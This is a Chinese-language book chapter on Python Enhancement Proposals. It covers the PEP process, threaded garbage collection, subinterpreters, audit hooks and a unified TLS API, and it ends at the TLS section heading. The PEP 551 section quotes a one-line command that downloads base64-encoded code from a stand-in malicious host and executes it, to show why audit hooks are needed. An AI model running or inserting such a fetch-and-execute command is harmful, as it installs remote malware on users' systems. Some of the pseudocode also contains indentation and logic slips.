

# Python 增强提案

在本章中，我们将探讨 **Python 增强提案 (PEPs**)。PEPs 类似于 **请求评论 (RFCs**)；它们允许感兴趣的相关方就 Python 应该采取的未来路径提供反馈。在本章中，我们将讨论以下内容：

+   什么是 PEPs？

+   PEP 556 – 线程垃圾回收

+   PEP 554 – 多个子解释器

+   PEP 551 – 安全透明度

+   PEP 543 – 统一 TLS API

# 简介

任何维护的编程语言都需要定期更新以修复问题，以及提供新特性。Python 使用 PEPs 提出新特性，收集社区反馈，并记录设计决策。因此，了解 PEP 流程的工作方式，并查看一些 PEPs 以了解它们涉及的内容及其对语言的潜在影响是很重要的。

# 什么是 PEPs？

PEPs 是设计文档，为 Python 社区提供信息，描述 Python 的新特性（或提议的新特性）、其流程或其环境。PEPs 提供技术信息，以及文档的合理性。

Python 基金会使用 PEPs 作为与整个 Python 社区沟通的主要机制。PEP 作者的一个要求是在社区成员之间建立共识，并记录任何不同意见。

PEPs 由 Python 基金会以文本文件的形式保存，在一个 **内容版本控制系统 (CVS**) 中。这个版本控制系统充当每个 PEP 的历史记录，记录了从初稿到最终接受期间文档的变更。由于 CVS 基于 GitHub，可以使用常规的 Git 命令来访问文档，或者可以通过浏览器在 [`github.com/python/peps.`](https://github.com/python/peps) 上查看。

可用的 PEP 类型有三种：

+   **标准轨道**：这些描述了 Python 的新特性或实现。它们也用于描述当前版本标准 Python 库之外的标准；后续的 PEP 将提供在标准库中的支持。一个很好的例子是 Python 2 的 `from __future__` 模块，这是在 Python 3 开发期间。

+   **信息轨道**：这些描述 Python 设计问题，或向社区提供指南/信息，但它们不讨论新特性提案。这些 PEPs 不需要社区共识，也不是官方推荐，因此 Python 用户可以自由选择使用或忽略信息性 PEPs。

+   **流程轨道**：这些描述了 Python 的流程或提议对流程的变更。它们与标准 PEPs 类似，但适用于 Python 语言本身之外的区域。它们在实施前通常需要社区共识，并且由于它们不仅仅是信息性的，因此通常需要遵守。它们对 Python 生态系统进行变更，而不是对语言进行变更，因此影响可能会影响语言的使用。

# 如何进行...

由于这部分更多地是关于程序而不是编码，本节将讨论创建、提交和维护 PEP 的过程：

1.  就像许多伟大的事物一样，创建 PEP 的第一步是为 Python 开发一个新想法。就像 Unix 环境期望程序只做一件事一样，PEP 应该只解释一个关键想法。小的改进，如增强或补丁，通常不需要完整的 PEP，可以通过提交工单的方式提交到 Python 开发流程中。

1.  最成功的 PEP 都集中在单一主题上，PEP 编辑有权拒绝他们认为主题过于宽泛或提案不集中的 PEP。如果提交者有任何疑问，提交多个 PEP 比尝试讨论许多重叠的想法更好。

1.  每个 PEP 都必须有一个支持者——这个人将使用规定的格式编写 PEP，监控和管理关于 PEP 的讨论，并建立 PEP 的社区共识。虽然 PEP 支持者通常是作者，但这并不一定，例如，一个组织提出 PEP 的情况；支持者只是最积极倡导 PEP 的人。

1.  在起草 PEP 之前，应该确定对该想法的兴趣；显然，试图推广一个不受欢迎的想法是一场艰难的战斗，可能会引发反弹。最佳方式是通过 `python-list@python.org` 或 `python-ideas@python.org` 在一些核心 Python 联系组中发布帖子。显然，还有许多其他 Python 论坛、博客和其他在线社区地点，但那些被认为是官方的征集站点。

1.  在起草 PEP 之前评估社区兴趣的一个好处是确保该想法尚未被拒绝；互联网搜索并不能保证找到过去提出的所有想法。这也确保了该想法在社区中有价值，而不仅仅是一个个人项目。

1.  一旦社区进行了调查，并且该想法被认为足够好以形成 PEP，就应该创建一个草案 PEP 并提交到 `python-ideas` 邮件组。这允许作者确保文档格式正确，并在正式提交之前获得反馈。

1.  要将 PEP 实际提交到 Python GitHub 网站，必须提交一个拉取请求：

+   +   首先，克隆 PEP 仓库并创建一个名为 `pep-9999.rst` 的文件。这个文件将包含你的 PEP 文档。

    +   将其推送到你的 GitHub 分支并提交一个拉取请求。

    +   PEP 将由编辑人员审查其格式和结构。

    +   如果获得批准，PEP 将获得一个正式的 PEP 编号，并分配到三个轨道之一，具体视情况而定。它还将获得 *草案* 状态。

1.  PEP 不被批准的原因包括重复提交（通常，其他人提交了类似的想法），被认为技术上不可行或不切实际，PEP 动机不足，缺乏向后兼容性（显然，这在 Python 2 和 Python 3 之间不相关），或者不符合 Python 哲学。

1.  随着 PEP 的更新，更改可以通过具有 git push 权限的开发者进行检查。

1.  在分配了官方 PEP 编号后，草稿 PEP 可以在`python-ideas`邮件组上进行讨论。然而，最终，标准跟踪 PEP 必须发送到`python-dev`列表进行审查。

1.  标准跟踪 PEP 包括两部分：设计文档和参考实现。建议与 PEP 一起提交原型实现，作为合理性检查，以表明该想法是可行的。

1.  一旦 PEP 完成并准备最终提交，最终考虑将由 Python 基金会领导人 Guido van Rossum 或他选定的干部进行。为了使 PEP 被接受，它必须有一个完整的提案描述，所提出的增强必须是对 Python 语言或生态系统的改进，任何解释器实现不得影响性能或功能，或以其他方式干扰操作，并且实现必须符合 Guido van Rossum 的 Python 风格感。

1.  一旦 PEP 被接受，参考实现将被完成并纳入主 Python 代码库。到那时，PEP 将被标记为*完成*。其他状态标记包括：*推迟*（PEP 进展被搁置），*拒绝*（PEP 被 Van Rossum 拒绝），和*撤回*（PEP 被作者从流程中移除）。

# 还有更多...

PEP 被接受所需的必要部分包括以下内容：

+   **前言**：这包括 PEP 编号、简短标题、其他人的姓名等。

+   **摘要**：对 PEP 中解决的问题的简要描述。

+   **许可**：每个 PEP 必须置于公共领域或根据开放出版许可进行许可。

+   **规范**：描述新语言特征的语法和语义的技术规范，详细到足以允许在替代 Python 实现中实现互操作性，即 CPython、Jython、IronPython、PyPy 等。

+   **动机**：作者创建 PEP 的原因，以及 Python 生态系统中目前存在的不足。

+   **理由**：通过描述 PEP 背后的动机以及为什么在实现方面做出了某些决定来扩展规范。它包括对考虑的替代设计和相关工作的讨论，例如在其他语言中如何实现此功能。还应该有社区共识的证据和讨论过程中在社区中提出的重要问题。

+   **向后兼容性**：本节中解决了有关向后兼容性的任何已知问题。必须包括这些不兼容性的建议修复；未考虑（或包括不足）的方法可能导致 PEP 立即被拒绝。

+   **参考实现**：虽然在草案和评论期间不是必需的，但在 PEP 接收 *Final* 状态之前，必须提供一个最终实现。该实现必须包括所有相关的测试代码和文档，以便包含在 Python 语言参考或标准库参考中。

PEP 以 reStructuredText（如 Python 文档字符串）编写，这使得它们易于阅读，同时可以轻松解析为 HTML。

# PEP 556 – 线程化垃圾回收

PEP 556 及其后续 PEP 包括了最近提交的 PEP，这些 PEP 由于其对 Python 生态系统的影响而可能是有趣的。

PEP 556 于 2017 年 9 月创建，目前处于 *草案* 状态。预计它将被包含在 Python v3.7 中。它提出了 Python 垃圾回收的新操作模式。新模式将允许在专用线程中发生隐式收集，而不是与 CPU 同步进行。

# 准备工作

要讨论这个 PEP，我们需要讨论在 Python 中垃圾回收是如何工作的。

垃圾回收由 `gc` 模块处理。虽然 Python 默认提供了垃圾回收，但实际上这是一个可选功能。使用该模块，可以关闭垃圾回收，或修改收集频率；它还提供了调试选项。此外，它还提供了访问收集器识别但无法直接重新分配的对象的能力。Python 的垃圾回收器与引用计数一起工作，这也是它可以被关闭的一个原因。

隐式垃圾回收基于系统确定资源过度分配。当提出新的分配请求时，系统会审查程序状态以确定哪些对象可以被收集，以便为新资源腾出空间。

当通过 Python API 调用程序性收集调用时，例如 `gc.collect`，会发生显式垃圾回收。虽然这可以由程序员完成，例如在显式关闭文件时，但也可以由底层解释器在对象不再被引用时发生。

从历史上看，Python 垃圾回收器在执行隐式收集时是同步操作的。这导致程序在当前线程中暂停执行，并运行垃圾回收器。

问题源于在回收资源时，对象内部的最终化代码可能会被执行，例如`__del__`方法和弱引用。指向对象的弱引用不足以保持这些对象*存活*，以防止垃圾回收。如果对象仅剩的引用是弱引用，那么垃圾回收器就可以自由地销毁该对象并重新分配其资源。直到对象被销毁，任何弱引用都可以调用并返回引用的对象，无论是否有强引用可用。

弱引用通常用于实现缓存或大对象的映射，当不需要因为缓存或映射而保留大对象时。换句话说，弱引用允许一旦大对象不再被积极使用，就可以将其从内存中移除；如果对象被缓存或映射到关联中，就没有必要保留它，因为那些引用对对象没有主要影响。

当存在用于在对象关闭和取消引用时清理系统的最终化代码时，活动线程会暂停，直到最终化过程完成；例如，通知其他对象，甚至其他系统，该对象不再可用。暂停正在运行的代码来处理这些维护工作可能会导致在代码重新启动时出现问题的内部状态。

因此，这个 PEP 旨在解决线程状态问题。当运行线程暂停然后重新启动时，这比在多线程同步中更难处理，在多线程同步中，控制只是在不同线程之间切换。而不是强迫开发者处理在重新进入原始线程时出现的问题，每次线程暂停时，这个 PEP 通过允许在单独的线程中进行垃圾回收来解决该问题，从而允许使用成熟的线程原则。

# 如何实现...

由于这是一个 PEP，我们不需要创建真正的代码，与前面的章节不同。我们将要涵盖提案的细节以及它们打算如何实现：

1.  将向`gc`模块添加两个新的 API：

    +   `gc.set_mode(mode)` API 配置垃圾回收模式在串行和线程之间。如果当前设置为线程，但设置被切换到串行，该函数会在更改之前等待垃圾回收线程完成。

    +   `gc.get_mode()` API 返回当前的操作模式。

1.  可以在两种选项之间切换收集模式，因此建议在程序开始时或创建子进程时设置。

1.  实际实现是通过向`gc`模块添加`gc_is_threaded`标志来完成的；内部，添加了一个线程锁，以防止多个垃圾回收实例同时运行。

1.  此外，还向`threading`模块添加了两个私有函数，`threading._ensure_dummy_thread(name)` 和 `threading._remove_dummy_thread(thread)`。前者使用提供的名称创建一个线程，而后者从模块的内部状态中删除线程。

    这些函数允许当前线程在最终化回调中调用时提供垃圾回收线程的名称。

1.  提供了伪代码，演示了实际代码如何在`gc` Python 模块中以 C 代码的形式实现：

+   +   `callback_collect.txt` 通过运行垃圾回收，增强当前函数，直到当前对象生成：

```py
                  def collect_with_callback(generation):
                      """
                      Collect up to the given *generation*.
                      """
                      # Same code as currently 
                      # (see collect_with_callback() in gcmodule.c)
```

+   +   `collect_gens.txt` 与之相似，因为它不修改现有功能。它旨在收集所有对象，由启发式算法确定：

```py
                  def collect_generations():
                      """
                      Collect as many generations as desired 
                      by the heuristic.
                      """
                      # Same code as currently 
                      # (see collect_generations() in gcmodule.c)
```

+   +   `lock_collect.txt` 展示了垃圾回收将如何以线程安全的方式处理；即在收集期间锁定线程：

```py
                  def lock_and_collect(generation=-1):
                      """
                      Perform a collection with thread safety.
                      """
                      me = PyThreadState_GET()    
                      if gc_mutex.owner == me:
                          # reentrant GC collection request, bail out
                          return
                  Py_BEGIN_ALLOW_THREADS    
                  gc_mutex.lock.acquire()
                  Py_END_ALLOW_THREADS
                  gc_mutex.owner = me
                  try:
                      if generation >= 0:
                          return collect_with_callback(generation)
                      else:
                          return collect_generations()
                  finally:
                      gc_mutex.owner = NULL
                      gc_mutex.lock.release()
```

+   +   `sched_gc.txt` 确保垃圾回收处于线程模式，并在资源可用时请求回收：

```py
                  def schedule_gc_request():
                      """
                      Ask the GC thread to run an implicit collection.
                      """
                      assert gc_is_threaded == True
                      # Note this is extremely fast 
                      # if a collection is already requested
                      if gc_thread.collection_requested == False:
                          gc_thread.collection_requested = True
                          gc_thread.wakeup.release()
```

+   +   `implicit_gc.txt` 不修改现有代码。它只是在启发式算法确定必要时调用收集：

```py
                  def is_implicit_gc_desired():
                      """
                      Whether an implicit GC run is currently desired based 
                      on allocation stats. Return a generation number, 
                      or -1 if none desired.
                      """
                      # Same heuristic as currently 
                      # (see _PyObject_GC_Alloc in gcmodule.c)
```

+   +   `gc_malloc.txt` 为支持垃圾回收对象分配内存资源：

```py
                  def PyGC_Malloc():
                      """
                      Allocate a GC-enabled object.
                      """
                      # Update allocation statistics (same code 
                      # as currently, omitted for brevity)
                      if is_implicit_gc_desired():
                          if gc_is_threaded:
                              schedule_gc_request()
                          else:
                              lock_and_collect()
                      # Go ahead with allocation (same code as currently, 
                      # omitted for brievity)
```

+   +   `gc_thread.txt` 在被调用时启动垃圾回收线程：

```py
                  def gc_thread(interp_state):
                      """
                      Dedicated loop for threaded GC.
                      """
                      # Init Python thread state 
                      # (omitted, see t_bootstrap in _threadmodule.c)
                      # Optional: init thread in Python threading module, 
                      # for better introspection
                      me = threading._ensure_dummy_thread(name="GC thread")
                      while gc_is_threaded == True:
                          Py_BEGIN_ALLOW_THREADS
                          gc_thread.wakeup.acquire()
                          Py_END_ALLOW_THREADS
                          if gc_thread.collection_requested != 0:    
                              gc_thread.collection_requested = 0
                               lock_and_collect(generation=-1)
                      threading._remove_dummy_thread(me)
                      # Signal we're exiting
                      gc_thread.done.release()
                      # Free Python thread state (omitted)
```

+   +   `gc_set_mode.txt` 实际上设置了垃圾回收模式，在串行和线程之间：

```py
                    def gc.set_mode(mode):
                        """
                        Set current GC mode. 
                        This is a process-global setting.
                        """
                        if mode == "threaded":
                            if not gc_is_threaded == False:
                                # Launch thread
                                gc_thread.done.acquire(block=False) 
                                # should not fail
                                gc_is_threaded = True
                                    PyThread_start_new_thread(gc_thread)
                        elif mode == "serial":
                            if gc_is_threaded == True:
                                # Wake up thread, asking it to end
                                gc_is_threaded = False
                                gc_thread.wakeup.release()
                                # Wait for thread exit    
                                Py_BEGIN_ALLOW_THREADS
                                gc_thread.done.acquire()
                                Py_END_ALLOW_THREADS
                                gc_thread.done.release()
                        else:
                            raise ValueError("unsupported mode %r" %
                                             (mode,))
```

+   +   `gc_get_mode.txt` 是一个获取函数，它简单地报告垃圾收集器是线程化的还是串行的：

```py
                   def gc.get_mode(mode):
                       """
                       Get current GC mode.
                       """
                       return "threaded" if gc_is_threaded else "serial"
```

+   +   `gc_collect.txt` 表示一个简单的函数，它锁定线程并调用当前对象生成的垃圾回收：

```py
                   def gc.collect(generation=2):
                       """
                       Schedule collection of the given generation 
                       and wait for it to finish.
                       """
                       return lock_and_collect(generation)
```

再次强调，所有前面的代码只是伪代码，表示 C 代码如何在 Python 解释器中实现。这不是生产代码，任何尝试直接使用它的尝试都将失败。

# 还有更多...

默认的垃圾回收模式没有改变以处理线程的原因是，虽然它适用于已经多线程的程序，但单线程程序在主线程中看到终结调用。改变这种行为可能会导致程序中的错误，与主线程外存在的终结器相关。

如果程序被编写为使用分叉进行并发，它也会引起问题。从单线程程序中分叉是正常的，因为那是它的预期用途，但当你从多线程程序中分叉时，错误可能会悄悄进入系统。

由于兼容性问题，垃圾回收目前等待收集过程结束后才恢复主线程。因此，虽然显式收集在单独的线程上以及隐式收集可能是有意义的，但这并不能真正缓解线程重启时的同步问题。

在多线程的本质中，使用线程化的垃圾收集器与串行收集相比，在隐式收集时会有轻微的延迟。这种延迟可能会影响某些应用程序的系统内存分配配置文件，但预计将是微不足道的。

由于伪代码在几个地方显示了线程锁定，这可能会对 CPU 使用产生影响。然而，在垃圾收集过程中本身遍历对象指针链要昂贵得多，从处理能力上来说。这种遍历几乎是一种暴力过程，并且不容易适应 CPU 推测、超标量执行和现代 CPU 设计的其他奇迹。

# PEP 554 – 多个子解释器

PEP 554 于 2017 年 9 月创建，目前处于*草案*状态。预计将包含在 Python v3.8 中。本 PEP 讨论了创建一个`interpreters`模块的潜力，允许在同一个进程中访问多个解释器。

多个解释器，也称为子解释器，自 Python 1.5 版本以来就是 Python 的一个特性。虽然大多数开发者通过交互式 Python 控制台或简单地执行代码而了解到常规 Python 解释器，但它们能够在同一个进程中支持多个独立的解释器，如果需要，甚至可以在同一个线程中。可以通过使用`PyThreadState_Swap()`函数在子解释器之间切换。

每个子解释器都是一个几乎完整的、独立的 Python 环境，用于代码执行。每个解释器都有所有导入模块、系统路径以及甚至`STDIN`、`STDOUT`和`STDERR`流的独立和独立版本。可以通过制作模块初始化字典的浅拷贝来在子解释器之间共享扩展模块；也就是说，模块在子解释器之间实际上是一个单一的、复制的实例，而不是每次都重新初始化。

这个 PEP 旨在通过提供对子解释器的高级接口，使子解释器成为 Python 标准库的一部分，类似于当前的`threading`模块。该模块还将允许每个解释器之间进行数据共享，而不是对象共享；也就是说，虽然每个解释器中的对象是独立的，但它们之间仍然可以共享数据，(再次，就像线程一样)。

# 如何做到这一点...

再次，本节将展示 PEP 中提供的伪代码，尽管它看起来像 Python 代码，以展示 PEP 将如何工作：

1.  `interpreter_isolate.txt`演示了在解释器中独立运行代码的方式：

```py
        interp = interpreters.create()
        print('before')
        interp.run('print("during")')
        print('after')
```

1.  `interpreter_spawn_thread.txt`显示了解释器生成一个线程来运行 Python 代码：

```py
        interp = interpreters.create()
        def run():
            interp.run('print("during")')
        t = threading.Thread(target=run)
        print('before')
        t.start()
        print('after')
```

1.  在`interpreter_prepopulate.txt`中，解释器预先填充了导入的模块，这些模块被初始化；然后，解释器等待调用以实际执行工作：

```py
        interp = interpreters.create()
        interp.run(tw.dedent("""
            import some_lib
            import an_expensive_module
            some_lib.set_up()
        """))
        wait_for_request()    
        interp.run(tw.dedent("""
            some_lib.handle_request()
        """))
```

1.  `interpreter_exception.txt` 展示了解释器处理异常，除了创建了一个新的解释器外，与正常操作没有太大区别：

```py
        interp = interpreters.create()
        try:
            interp.run(tw.dedent("""
                raise KeyError
            """))
        except KeyError:
            print("got the error from the subinterpreter")
```

1.  `interpreter_synch.txt` 展示了创建两个子解释器，并使用数据通道在它们之间进行同步：

```py
        interp = interpreters.create()
        r, s = interpreters.create_channel()
        def run():
            interp.run(tw.dedent("""
                reader.recv()
                print("during")
                reader.close()
                """),
                shared=dict(
                    reader=r,
                ),
            )
            t = threading.Thread(target=run)
            print('before')
            t.start()
            print('after')
            s.send(b'')
            s.close()
```

1.  `interpreter_data_share.txt` 展示了几个解释器的创建和共享文件数据：

```py
        interp = interpreters.create()
        r1, s1 = interpreters.create_channel()
        r2, s2 = interpreters.create_channel()
        def run():
            interp.run(tw.dedent("""
                fd = int.from_bytes(
                    reader.recv(), 'big')
                for line in os.fdopen(fd):
                    print(line)
                writer.send(b'')
                """),
                shared=dict(
                    reader=r,
                    writer=s2,
                ),
            )
            t = threading.Thread(target=run)
            t.start()
            with open('spamspamspam') as infile:
                fd = infile.fileno().to_bytes(1, 'big')
                s.send(fd)
                r.recv()
```

1.  `interpreter_marshal.txt` 展示了通过 `marshal` 进行对象传递。序列化数据类似于 pickling 或 shelving，但这两个模块是为通用对象设计的，而 `marshal` 是为 Python 编译的代码在 `.pyc` 文件中设计的：

```py
        interp = interpreters.create()
        r, s = interpreters.create_fifo()
        interp.run(tw.dedent("""
            import marshal
            """),
            shared=dict(
                reader=r,
            ),
        )
        def run():
            interp.run(tw.dedent("""
                data = reader.recv()
                while data:
                    obj = marshal.loads(data)
                    do_something(obj)
                    data = reader.recv()
                reader.close()
            """))
            t = threading.Thread(target=run)
            t.start()
            for obj in input:
                data = marshal.dumps(obj)
                s.send(data)
            s.send(None)
```

1.  `interpreter_pickle.txt` 展示了子解释器使用 `pickle` 共享序列化数据：

```py
        interp = interpreters.create()
        r, s = interpreters.create_channel()
        interp.run(tw.dedent("""
            import pickle
            """),
            shared=dict(
                reader=r,
            ),
        )
        def run():
            interp.run(tw.dedent("""
                data = reader.recv()
                while data:
                    obj = pickle.loads(data)
                    do_something(obj)
                    data = reader.recv()
                reader.close()
            """))
            t = threading.Thread(target=run)
            t.start()
            for obj in input:
                data = pickle.dumps(obj)
                s.send(data)
            s.send(None)
```

1.  `subinterpreter_module.txt` 简单展示了如何使用子解释器运行一个模块：

```py
        interp = interpreters.create()
        main_module = mod_name
        interp.run(f"import runpy; runpy.run_module({main_module!r})')
```

1.  `subinterpreter_script.txt`，类似于前面代码中的 `subinterpreter_module.txt`，有一个解释器在运行脚本。这也可以用于 zip 存档和目录：

```py
        interp = interpreters.create()
        main_script = path_name
        interp.run(f"import runpy; runpy.run_path({main_script!r})")
```

1.  `subinterpreter_pool.txt` 展示了创建一个池并生成多个子解释器，然后使用线程执行器执行代码：

```py
        interps = [interpreters.create() for i in range(5)]
        with concurrent.futures.ThreadPoolExecutor(max_workers=len(interps)) as pool:
            print('before')
            for interp in interps:
                pool.submit(interp.run, 'print("starting"); print("stopping")'
            print('after')
```

# 它是如何工作的...

多个解释器的概念与多进程并不相似。每个解释器（相对）与其他解释器隔离，就像多个进程一样；但从外部看，系统似乎只运行一个进程。这意味着系统性能和资源使用比真正的多进程要好得多。

它还提高了系统的安全性，因为不同解释器之间存在一些泄漏，例如文件描述符、内置类型、单例和底层静态模块数据。它们不需要修改进程的隔离来传递数据或以其他方式与系统交互。

子解释器的另一个好处是，它们提供了一种 Python 并发方法，允许在像独立、隔离的线程一样工作的同时，同时使用多个 CPU（如多进程）。由于 GIL 的存在，这目前是被阻止的。因此，尽管与现有的编程方法有一些重叠，但它可以提供另一种并发形式，而不存在其他并行处理范例的问题。

子解释器提供了改进的安全性，因为它们本质上彼此隔离，每个解释器都有自己的内存块来操作。这与线程形成对比，线程设计上共享一个内存池，以促进数据通信。

# 通道

子解释器能够通过通道共享数据；Go 语言也是如此，因为这一概念来自**通信顺序过程**（CSP），它描述了并发系统内的交互。

Channels 提供两种模式：发送和接收。在 Python 的情况下，一个解释器向另一个解释器打开一个通道。当发送数据时，实际上是来自一个对象的数据；当接收数据时，该数据被转换回原始对象。这样，可以在不同的解释器之间传递对象，而不必实际访问这些对象本身。

通过`send()`、`recv()`*和`close()`调用实现通道的隐式调用。这消除了在解释器对象上显式函数（如`add_channel()`和`remove_channel()`）的需求，这些函数只会给 Python API 添加额外的功能。

Channels 允许多个解释器之间进行多对多连接，而正常的数据管道只支持一对一连接。两者都是 FIFO 数据传输，因此使用管道的简单性消除了在多个解释器之间处理同时数据传输的能力。管道还需要命名管道，而通道则简单可用。

数据队列和通道非常相似，主要区别在于队列允许数据缓冲。然而，这会给通道数据的发送和接收带来问题，因为通道支持进程阻塞，所以队列被确定不是子解释器通信的可行解决方案。此外，如果需要，可以使用通道构建队列。

# 还有更多...

子解释器的唯一记录用途是在`mod_wsgi`和**Java 嵌入式 Python (JEP)**中。这可能是由于它们的隐藏性质。尽管从 Python 的早期阶段起就提供了多个解释器，并且它们提供了一些与多线程和多进程相当的功能，但它们并不常用。坦白说，作者直到找到这个 PEP 之前都不知道它们，但它们听起来对于某些并行处理项目非常有用。

# PEP 551 – 安全透明度

PEP 551 是 2017 年 8 月发布的，目前处于*草案*状态；它也预计将在 3.7 版本中实现。它的设计目的是通过安全工具提高对 Python 行为的可见性。具体来说，它试图防止 Python 的恶意使用，检测并报告恶意使用，以及检测绕过检测的尝试。需要注意的是，这个 PEP 将需要用户干预，也就是说，他们将对为他们特定环境定制和构建 Python 负责。

# 准备工作

在深入探讨这个 PEP 的具体细节之前，需要对软件安全进行一些讨论。这确保了读者可以拥有一个共同的知识水平。

# 一般安全

在软件中，许多漏洞是由于允许远程代码执行或权限提升的 bug 引起的。最严重的漏洞之一是**高级持续性威胁**（**APT**）。APT 发生在攻击者获得对网络的访问权限，在一台或多台系统上安装软件，然后使用该软件从网络中检索数据，如密码、财务信息等。尽管大多数 APT 试图隐藏其活动，但勒索软件和硬件攻击因其非常*高调且自豪*地宣布它们在网络中而引人注目。

首先被感染的系统通常不是最终目标；它们只是最易访问的。然而，这些被感染的系统充当网络中更大奖品的支点。例如，连接到互联网以及内部网络的开发者的电脑，可能为攻击者提供直接访问生产系统的途径。尽可能多的低级系统可能被感染，只是为了使彻底根除更加困难。

检测此类恶意软件的最大问题是无法确切看到网络中系统所发生的情况。虽然大多数系统都有日志记录功能，但捕获所有数据会使得系统管理员数据过载，试图在日益增大的堆肥中寻找针。此外，日志很快就会占用大量空间，而日志文件可以分配的空间是有限的。

不仅如此，日志通常会被过滤，只显示错误和类似问题，而不是微小的差异。一个编写良好的 APT 程序不应该导致此类错误，因此它们不会被正常的日志审查所检测。一种可能的方法是将恶意软件编写为使用目标系统上已经安装的工具，这样恶意软件的使用就会隐藏在正常的、预期的流量中。

# Python 和安全

Python 因其常见于服务器和开发机器而受到安全目的的欢迎，无论是积极的还是消极的。它允许执行代码而无需使用预编译的二进制文件，并且没有内部审计。例如，`launch_malware.py`（在 PEP 中提供）展示了使用单个 Python 命令下载、解密和执行恶意软件是多么容易：

```py
python -c "import urllib.request, base64;
    exec(base64.b64decode(
        urllib.request.urlopen('http://my-exploit/py.b64')
    ).decode())"
```

此代码告诉 Python 解释器执行提供的命令。该命令导入两个库（`urllib.request`和`base64`*），然后告诉系统执行从网站下载的`base64`编码文件解码后的命令。

目前，大多数依赖于签名文件或其他可识别代码的安全扫描工具不会将此命令识别为恶意，因为`base64`编码通常足以欺骗这些系统。由于没有文件访问，并且假设 Python 被列为允许访问网络和互联网的批准系统应用程序，此命令将绕过任何阻止文件访问、检查权限、自动审计和登录以及验证批准应用程序的检查。

由于没有系统是 100%安全的，特别是如果它必须与其他系统通信，许多安全专家假设他们的系统已经被攻击，但他们还没有发现攻击。因此，检测、跟踪和移除恶意软件是安全活动的主要焦点。这就是 Python 发挥作用的地方；能够看到 Python 运行时解释器在任何给定时间正在做什么可以帮助指示是否正在发生恶意或至少异常的活动。

# 如何做到这一点...

本 PEP 的核心是引入了两个 API，使系统管理员能够将 Python 集成到他们的安全设置中。关键因素是这些 API 不对系统的配置或行为施加某些限制：

1.  审计钩子 API 允许操作生成消息并将它们传递到堆栈上的操作员。这些操作通常被埋藏在 Python 运行时或标准库中，防止正常访问它们，例如模块导入、DNS 解析或动态代码编译。

以下代码展示了 PEP 如何在 Python 的底层 C 代码中定义 API。新的 Python 审计钩子 API 显示在`audit_hook_api.py`中：

```py
      # Add an auditing hook
      sys.addaudithook(hook: Callable[str, tuple]) -> None

      # Raise an event with all auditing hooks
      sys.audit(str, *args) -> None
```

1.  通过在 Python 代码中调用`sys.addaudithook()`或在 C 代码的底层调用`PySys_AddAuditHook()`，可以添加审计钩子。钩子不能被删除或替换。现有的钩子了解审计，因此添加新的钩子（也是被审计的）可能会导致现有的钩子抛出异常，如果尝试添加新的钩子：

+   +   当发生感兴趣的事情时，调用`sys.audit()`。字符串参数是事件的名称，其余参数是开发者认为为审计所必需的任何内容。

    +   在审计过程中，每个钩子以先进先出（FIFO）的方式被审查。如果钩子返回异常，则忽略后续的钩子，Python 解释器应该退出（一般来说）。当然，开发者可以自由决定异常发生时会发生什么，例如记录事件、中止操作或终止进程。

    +   如果在审计发生时没有设置任何钩子，则不会发生太多事情。审计调用应该对系统的影响最小，因为参数应该是现有数据的引用，而不是计算。

    +   由于钩子可能是 Python 对象，因此在调用 `finalize` 函数时需要释放它们。除了释放钩子之外，`finalize` 还将释放任何使用的堆内存。虽然这是一个私有函数，但它确实触发了所有审计钩子的事件，以确保记录意外的调用。

1.  验证开放钩子 API 设计为提供一种方法来识别可执行文件与不可执行文件。显然，这对于安全系统来说是一个重要功能，可以防止执行在特定环境中不应允许运行的命令、代码或数据。以下代码定义了 API 的 C 代码。

验证开放钩子的 Python API 显示在 `hook_handler_api.py` 中：

```py
        # Open a file using the handler
        _imp.open_for_import(path)
```

+   +   Python API 函数旨在完全替代 `open(str(path), "rb")`，其默认行为是以二进制只读方式打开文件。当函数调用时设置钩子，钩子将接收路径参数并立即返回其值，该值应该是一个打开的、类似文件的对象，用于读取原始字节。

此设计允许在文件已被读入内存的情况下使用 `BytesIO` 实例，执行有关文件内容是否允许执行所需的任何验证。如果确定文件不应执行，钩子将引发异常，以及任何额外的审计消息。

+   +   所有涉及代码文件的导入和执行功能都将更改为使用 `open_for_import()`。然而，重要的是要注意，对 `compile()`、`exec()` 和 `eval()` 的任何调用都不会使用此函数；需要特定的审计钩子，包括这些调用中的代码，以验证代码。大多数导入的代码将通过 `compile()` 的 API 进行，因此应避免重复验证。

# PEP 543 – 统一 TLS API

PEP 543 于 2016 年 10 月推出，用于 Python 3.7 版本，目前仍处于 *草案* 状态。其目标是定义一个标准的 TLS 接口，作为一系列抽象基类。此接口将允许 Python 绑定到除 OpenSSL 之外的其他 TLS 库，以减少对 OpenSSL 环境的依赖。通过使用抽象类，程序仍然可以使用标准 `ssl` 模块的 Python 接口，同时实际上使用不同的安全库。

随着 `ssl` 模块成为 Python 标准库的一部分，它自然地成为了 TLS 加密的首选工具。然而，一些开发者可能更愿意使用除 OpenSSL 之外的其他库，将这些替代库集成到他们的程序中需要他们学习如何有效地进行操作，同时保持目标平台的一致体验。

以下是当前 Python TLS 配置存在的问题：

+   在不重新编译 Python 使用新的 OpenSSL 版本的情况下，无法轻松实现 OpenSSL 的改进，如更高安全的 TLS。存在对 OpenSSL 的第三方绑定，但使用它们需要在程序中添加另一个兼容性层级。

+   Windows 操作系统不包含 OpenSSL 的副本，因此任何 Python 发行版都需要包含 OpenSSL 以确保其对开发者和用户可用。这使得 Python 开发团队成为 OpenSSL 的重新分发者，并承担与该角色相关的所有责任，例如确保在发现 OpenSSL 漏洞时提供安全更新。

+   macOS 处于类似的情况。Python 发行版要么需要包含 OpenSSL，就像 Windows 一样，要么需要链接到操作系统级别的 OpenSSL 库。不幸的是，苹果已经弃用了链接到操作系统库的方式，并且该库本身已经停止支持多年。此时，唯一能做的就是为 macOS 提供 Python 的 OpenSSL，这会导致与 Windows 上相同的问题。

+   许多操作系统不允许 OpenSSL 访问其系统加密证书数据库。这要求用户要么寻找其他位置以获取其根级信任证书，要么将操作系统证书导出到 OpenSSL。即使 OpenSSL 能够访问系统级证书，库之间的验证检查可能不同，在使用原生工具时可能导致意外行为。

+   对于希望使用替代 TLS 库的用户和开发者，例如支持 TLS 1.3 或 Python 的嵌入式实现，主要选项是使用第三方库来与其选择的 TLS 库进行接口，或者找出如何强制所选库进入 Python 的 `ssl` 模块 API。

# 如何做到这一点...

